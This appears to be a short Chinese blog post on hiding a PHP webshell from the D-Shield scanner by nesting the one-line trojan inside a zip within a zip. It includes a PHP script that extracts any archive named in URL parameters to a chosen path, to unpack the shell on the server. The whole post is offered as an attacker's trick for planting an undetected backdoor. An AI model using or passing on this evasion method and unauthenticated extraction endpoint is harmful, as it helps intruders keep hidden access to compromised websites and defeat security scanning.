



# 利用压缩文件来隐藏WEBSHELL

分享几个用来隐藏WEBSHELL的小技巧。
把一句话木马压缩成a.zip文件

使用D盾扫一下

重新对a.zip再进行压缩，压缩成11.zip


这下就识别不了。D盾只对第一层压缩包进行扫描，并不会对压缩包里的压缩包进行扫描,通过这个小技巧我们可以用来隐藏后门。
而已D盾还不会对PHP压缩包类进行报毒等操作。

```
<?php
if(isset($_GET['zip'])){
if(isset($_GET['f'])){
$zipname=$_GET['zip'];
$f=$_GET['f'];
$zip = new ZipArchive;
$res = $zip->open("$zipname");
if ($res === TRUE) {
$zip->extractTo("$f");
echo '解压成功';
} else {
echo 'failed, code:' . $res;
}
$zip->close();
}
}
?>
```

只需解压两次即可把shell解压出来。
